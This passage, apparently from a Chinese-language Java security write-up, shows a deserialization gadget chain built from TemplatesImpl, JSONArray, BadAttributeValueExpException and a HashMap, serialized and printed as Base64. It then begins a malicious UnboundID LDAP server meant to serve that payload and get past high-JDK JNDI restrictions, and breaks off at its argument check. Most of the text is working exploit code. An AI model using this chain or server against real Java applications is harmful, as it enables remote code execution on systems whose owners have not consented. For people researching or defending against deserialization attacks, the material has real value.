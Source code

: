 ```bash
        setValue(templates, "_name", "qiu");
        setValue(templates, "_tfactory", null);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates, bd);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        byte[] serialize = byteArrayOutputStream.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(serialize));
//                ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
//        objectInputStream.readObject();

    }}
```

‍

但由于 jdk 高版本的限制所以要用到一些手法绕过，这里用的就是 LDAP 返回序列化字符串来打反序列化了

‍

起一个恶意的 LDAPServer，里面加载了恶意的序列化数据

LDAPServer

```bash
package JNDIBypass;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import org.apache.commons.io.FileUtils;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.File;
import java.io.IOException;
import java.net.InetAddress;
import java.net.URL;
//高版本 LDAP 绕过

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main (String[] tmp_args ) throws Exception{
        if (tmp_args.length < 2) {
            System.out.println("Usage: java xxx.jar <IP> <file>");
            System.exit(1);
```